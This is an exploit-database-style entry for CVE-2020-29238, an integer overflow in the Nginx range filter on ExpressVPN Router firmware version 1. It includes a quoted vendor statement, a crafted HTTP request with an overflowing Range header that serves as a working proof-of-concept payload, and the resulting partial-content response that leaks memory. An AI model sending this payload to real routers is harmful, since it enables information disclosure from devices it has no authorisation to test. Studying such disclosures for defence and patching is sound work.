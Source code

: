 EXP
---

    # Exploit Title: ExpressVPN VPN Router 1.0 - Router Login Panel's Integer Overflow
    # Date: 09-04-2021
    # Exploit Author: Jai Kumar Sharma
    # Vendor Homepage: https://www.expressvpn.com/
    # Software Link: https://www.expressvpn.com/vpn-software/vpn-router
    # Version: version 1
    # Tested on: Windows/Ubuntu/MacOS
    # CVE : CVE-2020-29238

    *Proof of concept*:

    ExpressVPN Router's Login Panel runs on Nginx webserver, the version v1 of the router's firmware hosts web login panel on vulnerable web server

    ExpressVPN Summary: A publicly known bug in the Nginx server used by the ExpressVPN Router version 1.x firmware was reported. ExpressVPN no longer ships or supports that version and all users are encouraged to upgrade to the latest version of the ExpressVPN Router firmware available on our site, which is not vulnerable to this bug. Additionally, we highly discourage our users from exposing their router control panel to the Internet, as this class of bug would only be exploitable with access to the control panel, which is usually restricted to the local network. For help or support upgrading your router please visit: https://www.expressvpn.com/support/

    ExpressVPN Router version 1 is vulnerable to integer overflow vulnerability in Nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.

    Crafted Request:
    GET / HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0)
    Gecko/20100101 Firefox/81.0
    Host: 127.0.0.1:8181
    Accept-Encoding: identity
    Range: bytes=-17208,-9223372036854758999
    Connection: close


    Response:
    HTTP/1.1 206 Partial Content
    Server: nginx/1.9.15
    Date: Tue, 10 Nov 2020 19:22:05 GMT
    Content-Type: multipart/byteranges; boundary=00000000002
    Content-Length: 598
    Last-Modified: Thu, 13 Sep 2018 04:55:28 GMT
    Connection: close
    ETag: "5b99edc0-99f"


    --00000000002
    Content-Type: text/html
    Content-Range: bytes -14745-2462/2463